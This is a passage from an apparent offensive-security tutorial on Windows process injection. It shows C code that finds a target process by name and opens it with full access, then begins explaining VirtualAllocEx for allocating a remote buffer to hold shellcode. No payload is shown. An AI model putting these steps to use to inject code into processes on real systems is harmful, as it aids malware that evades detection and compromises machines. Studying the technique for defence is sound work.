 > A function can be created to obtain the handle to the remote process. This function will only have two parameters: the name of the executable (**`szProcessName`**) and the handle to the process (**`hProcess`**).

## **Function GetRemoteProcessHandle**
```c
BOOL GetRemoteProcessHandle(LPCWSTR szProcessName, HANDLE *hProcess) {

	HANDLE hSnapshot = NULL;

	PROCESSENTRY32 pe32 = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

	Process32First(hSnapshot, &pe32);

	do
	{
		if (wcscmp(pe32.szExeFile, szProcessName) == 0) {
			*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
			CloseHandle(hSnapshot);
			return TRUE;
		}

	} while (Process32Next(hSnapshot, &pe32));

	CloseHandle(hSnapshot);
	return FALSE;
}
```

## **Allocate Buffer**

Now with the HANDLE to the remote process, a buffer must be created with the appropriate permissions. The shellcode will be placed in this buffer.

### VirtualAllocEx

The function has the following parameters:
```c
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```
The first parameter is the HANDLE to the process, the second is used to determine where the buffer will be placed, it can be set to **NULL**. The third is the size of the buffer, which must be equal to the size of the shellcode. The fourth parameter specifies the type of allocation. In this case, it will be **`MEM_COMMIT`** and **`MEM_RESERVE`**. If you want to write to the allocation (**`MEM_COMMIT`**), you must first reserve it (**`MEM_RESERVE`**).
